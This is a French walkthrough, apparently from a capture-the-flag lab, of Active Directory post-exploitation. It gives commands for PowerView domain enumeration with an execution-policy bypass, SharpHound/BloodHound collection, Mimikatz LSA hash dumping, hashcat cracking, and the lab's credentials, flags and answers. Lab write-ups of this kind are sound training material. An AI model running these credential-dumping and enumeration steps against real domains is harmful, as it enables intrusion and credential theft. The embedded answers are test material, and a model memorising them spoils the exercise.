 ## Post-Exploitation

Utiliser SSH pour se connecter avec la machine Windows Server 1.1 avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

#### Powerview :

Une fois sur la machine, lancer le PowerShell avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

PowerView est un outil de reconnaissance que qu'il faut utiliser avec beaucoup de précautions. Il écrit en powerShell. Le script PowerView.ps1 contient un certain nombre de fonctions que l'on peut utiliser pour énumérer le domaine.
Le lancer :
```console
PS C:\Users\Administrator>. .\Downloads\PowerView.ps
```

Code source : https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Afin de visualiser toutes les fonctions fournies par le script voici une astuce :
```console
PS C:\Users\kreese\Documents> $currentFunctions = Get-ChildItem function:
PS C:\Users\kreese\Documents> . .\PowerView.ps1
PS C:\Users\kreese\Documents> $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
PS C:\Users\kreese\Documents> $scriptFunctions | Format-Wide -Column 4
```

Informations générales au sujet du domaine :
```console
Get-NetDomainController
```

Enumérer les Common Name des utilisateurs du domaine :
```console
Get-NetUser | select cn
```

Enumérer les groupes de type admin :
```console
Get-NetGroup -GroupName *admin*
```

Quel est le dossier partagé qui n'est pas configuré en tant que tel par défaut ? Utiliser la commande Invoke-ShareFinder.
```console
Share
```

Quel système d'exploitation s'exécute à l'intérieur du réseau en plus de Windows Server 2019 ?
```console
Get-NetComputer -fulldata | select operatingsystem
```

```console
Windows 10 Enterprise Evaluation
```

Un flag est caché parmi les utilisateurs. Trouvez le.
```console
POST{P0W3RV13W_FTW}
```

---

#### Bloodhound :

<p align="center">
  <img src="https://i.imgur.com/BAT2ZAH.png" />
</p>

BloodHound est un outil permettant de cartographier un environnement Active Directory en le représentant sous forme de graphe.

Installer Neo4j :
```console
$ sudo apt-get install neo4j
```
Vérifier la version :
```console
$ neo4j --version
```

Lancer Neo4j et vérifier que le service est accessible via le browser :
```console
$ neo4j console
```

<p align="center">
  <img src="https://pencer.io/assets/images/2020-06-09-14-53-59.png" />
</p>

Installer Bloodhound :
```console
$ sudo apt-get install bloodhound
```

Une fois sur la machine Windows, lancer le PowerView avec l'option -ep bypass :
```console
powershell -ep bypass
```

SharpHound est le collecteur de données officiel de BloodHound. Il est écrit en C# et utilise des fonctions API Windows natives et des fonctions d'espace de noms LDAP pour collecter des données à partir de contrôleurs de domaine.<br/>
Le lancer :
```console
. .\Downloads\SharpHound.ps1
```

```console
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

Transférer l'archive générée vers votre machine linux d'attaque. Utiliser scp.

Exemple : scp username@IP_of_windows_machine:/C:/Users/Anshul/Desktop/myfile.zip /home/ubuntu/myfile.zip

Une fois sur la machine Kali Linux charger le fichier zip avec Bloodhound pour avoir la cartographie du domaine de la machine cible.<br/>
Utiliser les crédentials neo4j/neo4j pour se connecter.

<p align="center">
  <img src="https://i.imgur.com/thfZUOy.png" />
</p>

Quel service est-il également un domain admin ?
```console
sqlservice
```

Quels sont les deux utilsateurs Kerberos ?
```console
sqlservice, krbtgt
```

---

#### Mimikatz :

Lancer Mimikatz :

```console
PS C:\Users\Administrator> cd .\Downloads\
PS C:\Users\Administrator\Downloads> .\mimikatz.exe
```

Vérifier que la sortie est "Privilege '20' ok" : Cela garantit que vous exécutez mimikatz en tant qu'administrateur.
```console
mimikatz # privilege::debug
```

Dumper les hashes :
```console
mimikatz # lsadump::lsa /patch
```

```console
$ locate rockyou.txt$ 
$ cat hashes.txt
$ hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

Quel est le mot de passe de la Machine1 ?
```console
Password1
```

Quel est le hash de la Machine2 ?
```console
c39f2beb3d2ec06a62cb887fb391dee0
```

---

#### Server Manager :

Se connecter à la machine Windows en Remote Desktop Protocol avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

```console
$ rdesktop -u SG ADRESSE_IP
```

<p align="center">
  <img src="https://cdn.dlcompare.com/game_tetiere/upload/gameimage/file/43698.png" />
</p>

Quel outil permet des tracer les evénements ?
```console
event viewer
```

Quel est le mot de passe du service SQL ? Regarder la description.
```console
MYpassword123#
```
